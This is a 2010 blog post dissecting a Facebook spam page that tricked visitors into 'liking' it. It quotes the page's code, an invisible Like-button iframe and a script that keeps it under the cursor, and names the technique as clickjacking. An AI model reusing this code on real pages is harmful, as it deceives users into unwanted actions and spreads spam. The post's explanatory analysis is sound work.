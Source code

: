 ```yaml
---
author: Simon
comments: true
date: 2010-08-25 19:23:43+00:00
excerpt: How I got suckered into Liking "Smoking Hot Bartenders" on Facebook
layout: post
slug: smoking-hot-bartender-is-some-smoking-hot-facebook-spam
title: '"Smoking Hot Bartenders" is Some Smoking Hot Facebook Spam'
wordpress_id: 155
categories:
- Development
tags:
- Facebook Spam
- Wack
---
```


Yesterday I noticed a ton of my friends on Facebook were "liking" **‎:|:|:|:|:|:| Smoking Hot Bartenders :|:|:|:|:|:|**.  Noticing that even some friends who I would never think would like that (girls), I decided to click on it and take a look. 

[![](http://www.liquidrhymes.com/wp-content/uploads/2010/08/friends-like-hot-bartenders.png)](http://www.liquidrhymes.com/wp-content/uploads/2010/08/friends-like-hot-bartenders.png)

The "Smoking Hot Bartenders" site, of course, is some sort of spam site where the user is prompted to fill out some leadgen form (or offer) in order to access pictures of the "smoking hot bartenders". Declining to do so, I closed the window and figured that was that.

I was quite surprised to check my feed today and notice that I had "liked" the same page on Facebook. How did this happen?

I decided to take a look at the site, [http://cutebabesbartending.info/](http://cutebabesbartending.info/), and see how they were executing this very viral scheme.

The first thing you see when you land on the site, most likely from Facebook (and hence logged in), is a screen with some hot girls and a link to click through. This link is the key to the scheme.

[![](http://www.liquidrhymes.com/wp-content/uploads/2010/08/Screen-shot-2010-08-25-at-11.43.35-AM.png)](http://www.liquidrhymes.com/wp-content/uploads/2010/08/Screen-shot-2010-08-25-at-11.43.35-AM.png)

Taking a look the source of the page we see:
[html]
<h2>
    <a href="photos.html">Continue here to see photos</a>
</h2>
<div style="overflow: hidden; position: absolute; filter:alpha(opacity=0); -moz-opacity:0.0; -khtml-opacity: 0.0; opacity: 0.0;" id="aaaa">       
  <iframe src="http://www.facebook.com/plugins/like.php?href=http%3A%2F%2Fcutebabesbartending.info%2F&amp;layout=standard&amp;show_faces=true&amp;width=450&amp;action=like&amp;font&amp;colorscheme=dark&amp;height=80" scrolling="no" frameborder="0" style="border:none; overflow:hidden; width:20px; height:20px;" allowTransparency="true" id="xxx" name="xxx"></iframe>
</div>
[/html]

Note we have here an absolutely positioned DIV with an IFRAME to the facebook like page. But where is the code that clicks the link? If they are triggering from the click why does this facebook like button fire? Check out the code below. Note that id **xxx** is the iframe itself, and **aaaa** is the facebook like button.

[html]
<script>
      var xxx = 0;
      var aaaa = document.getElementById('aaaa');    
      var standardbody=(document.compatMode=="CSS1Compat")? document.documentElement : document.body

      function lololol(e){
        if (window.event) {
          aaaa.style.top = (window.event.y-5)+standardbody.scrollTop+'px';
          aaaa.style.left = (window.event.x-5)+standardbody.scrollLeft+'px';
        } 
        else {
          aaaa.style.top = (e.pageY-5)+'px';
          aaaa.style.left = (e.pageX-5)+'px';
        }
      }
        document.onmousemove = function(e) {
          if (xxx == 0) {lololol(e);}
        }
</script>
[/html]

This is kind of ingenious: they are re-drawing the Facebook like button so it follows your mouse around the screen, and when you click on the link you click on both the like button and the link to the next page!

But why don't you see the like button? It's because the opacity of the parent element is set to 0 (ie completely transparent, thanks to commenter Colby Russell for correcting me). Let's change this and see what happens:
[![](http://www.liquidrhymes.com/wp-content/uploads/2010/08/smoking-hot-scam.png)](http://www.liquidrhymes.com/wp-content/uploads/2010/08/smoking-hot-scam.png)

Look at that Facebook like button there by my cursor! 

This is fairly brilliant spam - you click off of Facebook and unsuspectingly click on the link to get to the page where you assume there might be spam but you can ignore it. However, unbeknownst to you, you've already "liked" the spammy page, and it's now sitting in your feed waiting for the next sucker, er... friend, to click on it.

**Updated**: commenter [Ryan King](http://theryanking.com/) notes that the term for this spammy technique is [Clickjacking](http://en.wikipedia.org/wiki/Clickjacking).

